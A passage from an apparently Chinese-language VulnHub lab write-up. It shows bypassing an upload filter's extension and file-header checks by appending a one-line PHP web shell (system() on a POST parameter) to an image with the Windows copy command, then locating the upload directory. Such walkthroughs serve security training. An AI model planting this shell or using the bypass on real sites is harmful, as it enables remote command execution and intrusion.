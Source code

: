 尝试着访问下这个uploader的目录，可以看到一个文件上传的功能

测试了上传一个php会对文件后缀进行拦截

但是即使修改了问价后缀也会提示不是图片的格式，感觉应该是代码里检测了文件头

于是就可以用copy命令，在图片后面追加一些数据

1.txt内容如下

```php
<?php echo system($_POST[_]); ?>
```

然后随意找一张图片，在windows下用copy命令

![](vulnhub-练习记录\16.png)

就可以看到文字成功追加到图片后面了

![](vulnhub-练习记录\17.png)

然后就可以成功上传了， 还有一个问题就是不知道文件夹的名字

这里看了别人的writeup发现是用一些关键字进行fuzz爆破目录（感觉脑洞是有点大，就跳了把

上传的文件都在`/development/uploader/FRANKuploads/`目录下

![](vulnhub-练习记录\18.png)
